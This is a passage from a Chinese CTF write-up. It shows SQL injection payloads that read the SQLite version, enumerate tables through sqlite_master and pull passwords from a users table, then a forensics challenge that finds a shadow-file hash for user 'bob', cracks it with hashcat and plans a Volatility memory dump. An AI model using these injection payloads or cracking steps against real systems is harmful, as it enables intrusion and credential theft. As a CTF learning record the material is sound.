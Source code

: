 换成name试了一下，又报错发现这里有个getscoreusingnamehahaha

![image-20221031112728399](https://tuchuang.huamang.xyz/img/image-20221031112728399.png)

然后就可以开始查询了

查询版本

```
1'+union+select+sqlite_version()+—
```

![image-20221031112822194](https://tuchuang.huamang.xyz/img/image-20221031112822194.png)

爆出users表

```
1'+union+select+(select+name+from+sqlite_master+where+type%3d'table'+limit+0,1)+—
```

![img](https://uploader.shimo.im/f/68HxBO3bcJjUMNNB.png!thumbnail?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJleHAiOjE2NjcxODY5NjEsImZpbGVHVUlEIjoiUktBV1Z4V0VKYUhqVkRrOCIsImlhdCI6MTY2NzE4NjY2MSwiaXNzIjoidXBsb2FkZXJfYWNjZXNzX3Jlc291cmNlIiwidXNlcklkIjo1NjA1NzEyMX0.ovtkz6qCfUXuSVE9j9CUtkFzMfsmeGEeYuAutgwgt8c)查出password`1'+union+select+(select+password+from+users)+—`![img](https://uploader.shimo.im/f/S2Y9fE1whe6cBXyv.png!thumbnail?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJleHAiOjE2NjcxODY5NjEsImZpbGVHVUlEIjoiUktBV1Z4V0VKYUhqVkRrOCIsImlhdCI6MTY2NzE4NjY2MSwiaXNzIjoidXBsb2FkZXJfYWNjZXNzX3Jlc291cmNlIiwidXNlcklkIjo1NjA1NzEyMX0.ovtkz6qCfUXuSVE9j9CUtkFzMfsmeGEeYuAutgwgt8c)登录获取flag ![img](https://uploader.shimo.im/f/RsRLRpWZH7RC2fsZ.png!thumbnail?accessToken=eyJhbGciOiJIUzI1NiIsImtpZCI6ImRlZmF1bHQiLCJ0eXAiOiJKV1QifQ.eyJleHAiOjE2NjcxODY5NjEsImZpbGVHVUlEIjoiUktBV1Z4V0VKYUhqVkRrOCIsImlhdCI6MTY2NzE4NjY2MSwiaXNzIjoidXBsb2FkZXJfYWNjZXNzX3Jlc291cmNlIiwidXNlcklkIjo1NjA1NzEyMX0.ovtkz6qCfUXuSVE9j9CUtkFzMfsmeGEeYuAutgwgt8c)

# Misc

## strange_forensics

autopsy取证题目说flag1是用户密码，这里得去找shadow，由于只能搜关键词，我就直接搜shadow的特征了`root:`确实搜得到

![image-20221031122200427](https://tuchuang.huamang.xyz/img/image-20221031122200427.png)

但是其实很多还是passwd，继续往下翻翻到了

![image-20221031122214695](https://tuchuang.huamang.xyz/img/image-20221031122214695.png)

有一个bob用户的密码，这里爆破一下就可以了`bob:$1$C5/bIl1n$9l5plqPKK4DjjqpGHz46Y/:19283:0:99999:7:::`

用hashcat爆了100万个爆破出来了

![image-20221031122232269](https://tuchuang.huamang.xyz/img/image-20221031122232269.png)

keyword扫描直接扫描出了flag3的明文`Ux_forEnsIcs_MASTER`

![image-20221031122248044](https://tuchuang.huamang.xyz/img/image-20221031122248044.png)

现在就差flag2了autopsy好像没搜到什么

![image-20221031122259487](https://tuchuang.huamang.xyz/img/image-20221031122259487.png)

strings搜了一下敏感的关键字，发现这里是有个secret.zip，而且刚好在我们刚刚获取的用户密码bob的桌面上

![image-20221031122311749](https://tuchuang.huamang.xyz/img/image-20221031122311749.png)

要dump文件出来，那就只能vol了，vol要dump出linux的东西，大概率扫不出imageinfo，所以得去自己找找系统搜了一下关键词，18.04

![image-20221031122329481](https://tuchuang.huamang.xyz/img/image-20221031122329481.png)

